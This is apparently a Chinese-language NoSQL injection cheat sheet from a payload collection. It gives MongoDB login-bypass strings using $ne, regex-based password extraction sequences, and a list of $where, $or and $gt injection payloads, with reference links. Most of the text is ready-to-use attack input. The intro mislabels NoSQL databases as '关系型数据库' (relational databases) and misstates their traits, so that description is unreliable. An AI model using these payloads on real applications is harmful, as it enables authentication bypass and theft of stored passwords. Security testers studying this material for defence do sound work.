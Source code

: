 # 关系型数据库
关系型数据库相较传统数据库提供更宽松的一致性约束. 通过要求较少的关系约束和一致性检查, 关系型数据库通常提供性能和扩展性的好处. 然而，这些数据库仍然可能受到注入攻击，即使他们不使用传统的SQL语法.

## Exploit

基本验证旁路使用不相等 ($ne)
```
username[$ne]=toto&password[$ne]=toto
```
 
提取长度信息
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```
 
提取数据信息
```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

## MongoDB的有效载荷
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```


## Thanks to
* https://www.dailysecurity.fr/nosql-injections-classique-blind/
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection
* https://github.com/cr0hn/nosqlinjection_wordlists
